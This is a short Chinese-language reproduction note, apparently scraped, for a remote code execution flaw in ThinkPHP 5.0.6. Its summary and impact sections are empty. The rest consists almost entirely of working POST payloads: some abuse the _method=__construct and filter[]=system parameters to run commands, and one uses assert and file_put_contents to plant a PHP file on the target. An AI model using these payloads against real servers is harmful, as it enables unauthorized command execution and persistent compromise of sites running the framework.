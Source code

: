 Thinkphp 5.0.6
==============

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

> www.0-sec.org/?s=index/index

    POST

    s=whoami&_method=__construct&method=POST&filter[]=system

    aaaa=whoami&_method=__construct&method=GET&filter[]=system

    _method=__construct&method=GET&filter[]=system&get[]=whoami

> getshell

    POST

    s=file_put_contents('zerosec.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
